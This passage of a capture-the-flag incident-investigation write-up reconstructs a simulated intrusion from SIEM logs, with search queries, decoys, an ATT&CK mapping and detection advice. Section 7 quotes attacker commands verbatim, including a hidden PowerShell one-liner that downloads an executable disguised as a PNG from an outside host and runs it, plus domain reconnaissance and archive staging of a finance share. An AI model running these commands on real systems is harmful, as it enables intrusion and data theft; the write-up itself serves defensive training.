| H6 | Staging will be a `Compress-Archive` or `7z` on the file server under the cracked account, written to a temp path | EID 11 for a `.zip` by svc_backup | **Confirmed [Certain].** `C:\Windows\Temp\Financial_Audit_2026.zip` |
| H7 | There will be exfiltration after staging | Outbound transfer from FS or workstation after 20:34Z | **Not found [Certain for the data read].** Nothing after the staging event except sarah.jenkins' backup script. Either the scenario ends at staging or exfil lives in a log source not queried (§ Open items) |
| H8 | The DC was the primary target (SMB 445 at 20:07) | Admin-share access or 4624 on the DC | **Not supported.** No DC logon from the attacker; the SMB connection is a single EID 3 with no follow-on. [Likely] a probe, abandoned in favour of the file server |

---

## 6. Decoys and noise, and what disqualified each

* **`sarah.jenkins` running `nightly_backup.ps1` on CYM-FS-01 at 21:11:09Z.** Different user, different `LogonId` (`0x3A2B1` vs the attacker's `0x4F1B2`), parent is interactive `explorer.exe` not `wsmprovhost.exe`, script path is `C:\AdminScripts\`, and it runs **37 minutes after** the staging ZIP exists. This is the "legitimate maintenance happening at almost the same time" the event brief promises. [Certain] not attacker activity.
* **Gemini's case summary "svchost.exe (PID 6124)".** Source PID, not target. Would have been a wrong submission for flag 3.
* **`svc_backup` appearing under the workstation's hostname in the grid.** The grid's `Hostname` column renders `WorkstationName` from the 4624 — the *client* — so the event looks like a login *to* CYM-DEN-W10-042. Raw `Hostname: CYM-FS-01.cymbal.corp` is the truth.
* **`gemini.google.com` at 19:06:24Z and `cc-api-storage.adobe.io` at 19:49:29Z.** Ordinary Marketing-user traffic bracketing the intrusion. Neither has a referer to the CDN.
* **`GoogleUpdate.exe` from `svchost.exe` PID 624 at 18:54:39Z.** Legitimate scheduled task — but it is the only event that shows PID 624 is the long-lived `netsvcs` svchost, which is why it was chosen as the hollowing target. Context, not decoy.
* **Entity PID `2048` in case 33.** It is the Sysmon service's own `Execution ProcessID` on the EID 8 record, not a malware process. Red herring in the entity list.

---

## 7. Final payload

There is no exploit payload — the deliverable is the six answers and the queries that reproduce them. Reproduction, in order, in SIEM Search with Case Sensitivity Off:

```
# Flag 1 — SOAR → Cases → filter "PowerShell Download" → case 33 → Entities
#   CYM-DEN-W10-042.cymbal.corp

# Flag 2 — window 2026-10-15T18:00Z → 23:00Z; open 19:07:33Z row → Raw Log → refererURL
principal.ip = "10.240.32.115" AND metadata.event_type = "NETWORK_HTTP"
#   marketingtrends-insider.com

# Flag 3 — same window; open the single PROCESS_MODULE_LOAD → Raw Log → TargetProcessId
principal.process.file.full_path = /d27e15eb/ nocase OR target.process.file.full_path = /d27e15eb/ nocase OR target.file.full_path = /d27e15eb/ nocase
#   624

# Flags 4 and 5 — window 18:00Z → 2026-10-16T00:00Z; open the 4769 row and the svc_backup USER_LOGIN row → Raw Log
(principal.ip = "10.240.32.115" OR target.ip = "10.240.32.115" OR src.ip = "10.240.32.115") AND metadata.event_type != "NETWORK_HTTP"
#   MSSQLSvc/CYM-DB-01.cymbal.corp:1433
#   svc_backup

# Flag 6 — window 18:00Z → 2026-10-16T06:00Z; open the FILE_CREATION row → Raw Log → TargetFilename
principal.hostname = /CYM-FS-01/ nocase OR target.hostname = /CYM-FS-01/ nocase OR observer.hostname = /CYM-FS-01/ nocase OR principal.user.userid = /svc_backup/ nocase OR target.user.userid = /svc_backup/ nocase
#   Financial_Audit_2026.zip
```

Attacker command lines, verbatim from Sysmon `CommandLine` (query strings omitted where the proxy recorded one):

```
C:\Windows\System32\wscript.exe "C:\Users\marcus.vance\Downloads\ChromeSetup.js"
powershell.exe -w Hidden -c "iwr -usebasicparsing https://static.cdn-updater-distribution.net/assets/d27e15eb.png -OutFile C:\Users\marcus.vance\AppData\Local\Temp\d27e15eb.exe; Start-Process C:\Users\marcus.vance\AppData\Local\Temp\d27e15eb.exe"
net.exe group "Domain Admins" /domain
nltest.exe /dclist:cymbal.corp
cmd.exe /c "dir C:\Shares\Finance_Shares\Q3_Audits\"
powershell.exe -Command "Compress-Archive -Path C:\Shares\Finance_Shares\Q3_Audits\ -DestinationPath C:\Windows\Temp\Financial_Audit_2026.zip"
```

---

## 8. Tools & techniques

Google SecOps SIEM Search (UDM) · SecOps SOAR case queue · Event Viewer Raw Log tab (Zscaler key=value, Sysmon XML, WINEVTLOG JSON) · Claude in Chrome driving the tenant and scraping the shadow-DOM results grid via `javascript_tool` · GTI FAKEUPDATES Malware Profile PDF (scenario attachment) for IOC priming. Versions: SecOps is a SaaS tenant; no version was recorded for it or for the browser extension.

Concepts: referer-chain reconstruction from proxy logs · Sysmon EID 8 source/target PID semantics · Kerberoast fingerprint (4769 + RC4 `0x17` + user-SPN from a workstation IP) · SID-suffix pivot between 4769 `ServiceSid` and 4624 `UserID` · source-port correlation between host network telemetry (EID 3) and server logon (4624) · `wsmprovhost.exe` as the WinRM remote-shell parent · LogonId as the per-session thread through a Sysmon process tree.

---

## 9. MITRE ATT&CK

| Technique | Phase | Justification (one line, from the evidence) |
|---|---|---|
| T1189 Drive-by Compromise | Delivery | ZIP fetched with the blog as referer 14 s after the blog's theme JS loaded |
| T1204.002 User Execution: Malicious File | Exploitation | `explorer.exe` → `wscript.exe ChromeSetup.js` |
| T1059.007 JavaScript | Exploitation | Sysmon RuleName on the wscript launch |
| T1059.001 PowerShell | Installation | Hidden-window `iwr … ; Start-Process` one-liner |
| T1105 Ingress Tool Transfer | Installation | `iwr -OutFile` of `d27e15eb.png` → `.exe` |
| T1036.008 Masquerade File Type | Installation | PE served as `.png` |
| T1055.012 Process Hollowing | Installation / Priv-Esc | EID 8 into SYSTEM `svchost.exe` PID 624, Sysmon RuleName verbatim |
| T1071.001 Web Protocols | C2 | Two HTTPS POST beacons through the proxy |
| T1087.002 Domain Account Discovery | Actions | `net group "Domain Admins" /domain` |
| T1018 Remote System Discovery | Actions | `nltest /dclist:cymbal.corp` |
| T1558.003 Kerberoasting | Actions | 4769, RC4, `MSSQLSvc/…` from the workstation |
| T1021.002 SMB/Windows Admin Shares | Actions | EID 3 to DC :445 |
| T1078.002 Valid Accounts: Domain | Actions | `svc_backup` NTLM logon from the compromised host |
| T1021.006 Windows Remote Management | Actions | EID 3 to FS :5985 + `wsmprovhost.exe` parent on the FS |
| T1083 File and Directory Discovery | Actions | `dir C:\Shares\Finance_Shares\Q3_Audits\` |
| T1560.001 Archive via Utility | Actions | `Compress-Archive` |
| T1074.001 Local Data Staging | Actions | ZIP written to `C:\Windows\Temp` on the FS |

> [!warning] Honest scope
> Mapped to **ATT&CK v20** (v19 IDs unchanged), checked on 15 Nov 2026 against the ATT&CK v19 and v20 change logs. After v19, T1036.008 sits under Stealth and T1055.012 under Privilege Escalation and Stealth. IDs were first assigned without the live ATT&CK matrix open; nine of the seventeen are lifted verbatim from the Sysmon `RuleName` field the scenario author pre-labelled, which makes them the author's mapping rather than an independent one. The weakest ID is **T1189** — the "drive-by" is inferred from a referer and a 14-second gap; no injected script content was captured, so T1189 vs. a plain social-engineered download (T1204 alone) is [Likely], not [Certain]. T1074.001 is used rather than the author's bare `T1074` because the archive stayed local. No exfiltration technique is claimed because none was observed. The author's `RuleName` **T1053** on the 18:54:39Z `GoogleUpdate.exe` launch is excluded: that process is the legitimate scheduled updater (§3.3, §6). **T1021.002** rests on one EID 3 to the DC on port 445 with no follow-on (H8), so it records an attempt, not completed lateral movement [Likely].

---

## 10. Detection / blue-team notes

What a defender could have caught, in order of earliest opportunity:

1. **Proxy: ZIP download with a `Blogs`-category referer and `Uncategorized` destination, `threatname=None`, allowed.** A rule on `filetype=ZIP AND referer.urlcategory=Blogs AND dest.urlclass=Uncategorized` would have fired at 19:07:33Z, seven minutes before execution.
2. **`explorer.exe → wscript.exe` with a `Downloads\*.js` argument.** Sysmon EID 1; a near-zero-false-positive rule in most estates. The curated detection fired one step *later*, on the PowerShell child.
3. **`powershell -w Hidden` with `iwr … -OutFile *.exe; Start-Process`.** This is the alert that actually fired. Fine, but it is the third opportunity, not the first.
4. **Sysmon EID 8 with `TargetUser=NT AUTHORITY\SYSTEM` from a user-context `%TEMP%` binary.** Hollowing into a SYSTEM svchost from `AppData\Local\Temp` should page someone. It did not generate an alert in this tenant.
5. **4769 with `TicketEncryptionType=0x17` for a user-account SPN from a workstation subnet.** The canonical Kerberoast rule. Fix for the class: AES-only on service accounts (`msDS-SupportedEncryptionTypes`), long random service-account passwords or gMSA, and alert on any RC4 TGS.
6. **4624 LogonType 3 NTLM for a service account whose `WorkstationName` is a user workstation.** Service accounts should never originate from the workstation VLAN. Fix for the class: tier the account, deny interactive/network logon from Tier-2 subnets, and alert on `svc_*` with NTLM from 10.240.32.0/24.
7. **`wsmprovhost.exe` spawning `cmd.exe` on a file server.** WinRM remote shells on file servers under a service account are an allow-list violation on their own.
8. **`Compress-Archive` targeting a finance share with output in `C:\Windows\Temp`.** EID 11 for `*.zip` in `Windows\Temp` by a non-SYSTEM user.

Fix for the class, not the instance: the whole chain hinged on an RC4-roastable service account with a weak password and network-logon rights to a file server from a workstation subnet. Fix those two and steps 5–8 are impossible regardless of what the drive-by delivers.

---

## 11. Method notes

* **Hostname-first searching cost three dead queries (S2, S6, S7).** On this tenant, proxy and Windows Security events are only reachable through the client IP. Read the hint as a literal instruction next time: get the IP from the case, search the IP.
* **The grid's `Hostname` column lies for 4624.** It renders `WorkstationName` (the *source*), so a file-server logon looks like a workstation logon. This cost one wrong hypothesis (H5). Always read the raw `Hostname` for Windows Security events.
* **Gemini is orientation, not evidence.** Flag 3 would have been wrong from the case summary. Every answer was taken from a vendor-native raw-log field.
* **The results grid lives inside `<mc-app>` shadow DOM**, so `document.body.innerText` returns only the sidebar. A recursive shadow-root text walk was needed to scrape rows. The browser extension also blocks any JS return value containing a query string — proxy `url=` fields had to be returned with `?…` stripped.
* **Raw Log tab needs two clicks on first open** — the first click on the tab often rendered the Event Fields pane again; a second click, or a 3-s wait, brought the raw log in.
* **Grid times are +1 h versus raw UTC.** Caught on the first raw log opened; every time in this note was re-read from the raw field.

---

## 12. Blind alleys

* **`metadata.product_event_type = "4769" AND principal.hostname = /CYM-DC-01/`** — zero. The DC's name is in raw `Hostname` and (apparently) nowhere in `principal.*` on this parser. Do not re-walk.
* **Searching `4624` by `principal.ip` alone** — not attempted after S8 already surfaced the login via the three-field IP OR; noted because a single-field `principal.ip` search on 4624 may miss events where the parser puts the client IP in `src.ip`.
* **Looking for `Update.js` / `pbvzje4.top` / `event.coachgreb.com` from the GTI PDF** — not present. The author reused only the `d27e15eb` filename stem and the `sdce.distributors.commdistinc.com/editContent` C2. The PDF primes *what shape* to look for, not *what strings*.

---

## 13. Open items

* [Unverified] **Why the grid renders +1 h.** Tenant display timezone is the likely cause; not confirmed in Settings.
* [Unverified] **Exfiltration.** No outbound transfer was found after 20:34Z in the sources queried (Zscaler, Sysmon, WINEVTLOG). Not queried: firewall / NetFlow, DNS, any cloud-storage audit log. If the other Cold Room scenarios reference a Cymbal exfil, this is where to look.
* [Guessing] **"The Tell."** Candidates for the cross-incident operator link the event brief hints at: the `cdn-metrics-analytics.net` stage-2 beacon (distinct from FAKEUPDATES infrastructure), the `Mozilla/4.0` user-agent on the stage-1 POST, or the `C:\Windows\Temp\<Business_Name>_<Year>.zip` staging pattern. Carry these into the other two investigations and diff.
* [Unverified] **`category: investigation`** was taken from the label on the scenario page. If the platform lists a different category for Cold Room rooms, replace it verbatim.
* `solves` omitted — not displayed on the scenario page.
* The PID-6124 reuse between the PowerShell host and `d27e15eb.exe` (§3.5 note) is a scenario-authoring artefact, not an open analytical question — recorded so nobody tries to reconcile it.
* **Publication.** Neither the HTB event page (read 17 Nov 2026) nor the Google Cloud Security Community event page and two organiser threads (read 15 Nov 2026) set any rule on write-ups, and HTB's general CTF rules restrict sharing only during the competition. Published after the event closed on 1 Nov 2026.
* [Unverified] **`mitre_version` not recorded**. The ATT&CK release the original mapping was assigned against was not noted when the note was written, so the field is left out rather than invented. `mitre_v20` records the 15 Nov 2026 re-check.

---

## Cross-references

* Event siblings (same tenant and day; each Cold Room room has its own category, so there are no category siblings): [[HTB-COLDROOM2026-Rogue-Synthesis-Malicious-VSCode-Extension-Cloud-Token-Theft-CICD-Build-Hook]] · [[HTB-COLDROOM2026-OAuth-Heist-Identity-Compromise-OAuth-Persistence-Service-Account-Reuse]]
* Event MOC: [[00_MOC-HTB-COLDROOM2026-Operation-Cymbal-Cold-Room-Event]]

## Change Log

* 2026-11-15 — Two stale details corrected: §4 now points to §11 for the review-discipline rationale (was §7, the Final payload), and the §11 dead-query count reads three (S2, S6, S7). `updated` refreshed.
* 2026-11-15 — Final-audit fixes. `mitre_v20` added as the 15 Nov re-check of the current list; `mitre_version` noted in §13 as unrecorded. §13 adds the publication check.
* 2026-11-15 — Conformance pass. §3 gains a seven-phase summary table, §3.8 (Kill Chain limits) and §3.9 (summary diamond). §3.5 gains an evidence exhibit for Flag 3. §3.6 records 198.51.100.84 as a documentation-range placeholder. §9 honest scope lists the excluded `T1053` label and qualifies T1021.002. §8 states that tool versions were not recorded. Cross-references relabelled as event siblings. `updated` refreshed. No answer or ATT&CK ID changed.
* 2026-11-15 — Audit refresh. Cross-references and `related` now link both sibling rooms and the MOC. ATT&CK honest-scope note mapped to v20; no ID changed.
* 2026-10-30 — Flag 6 accepted ("Scenario Pwned", 04:53 platform-local). `status` draft → complete; result callout updated; flag-6 open item removed. No analytical content changed.
* 2026-10-30 — Flags 1–5 confirmed correct on submission; result callout and Open items updated. Flag 6 acceptance still unreported, so `status` remains `draft`.
* 2026-10-30 — Note created from a live solve in the `ctf-us-03` SecOps tenant. All six answers read from raw logs; Gemini summaries used for orientation only. §4 search log and §5 hypothesis table written at the user's request so the method is reproducible. `status: draft` pending flag submission.
